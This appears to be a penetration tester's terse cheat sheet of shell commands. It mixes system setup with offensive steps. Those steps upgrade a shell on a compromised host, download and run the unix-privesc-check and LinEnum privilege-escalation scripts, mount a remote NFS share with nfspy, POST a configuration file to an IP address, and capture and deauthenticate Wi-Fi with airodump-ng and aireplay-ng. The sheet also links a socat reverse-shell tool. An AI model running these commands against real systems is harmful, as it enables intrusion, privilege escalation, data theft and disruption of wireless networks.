 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool

apt-get install wicd-gtk


set ExitOnSession false


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


cd

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell

Post with curl
curl -X POST -F "file=./phpmy/config.inc.php" http://192.168.118.196/test.php


airodump-ng -c 3 --bssid MAC -w ~/dir/ wlan0mon

aireplay-ng -0 25 -a MAC wlan0mon

https://github.com/cliffe/SecGen
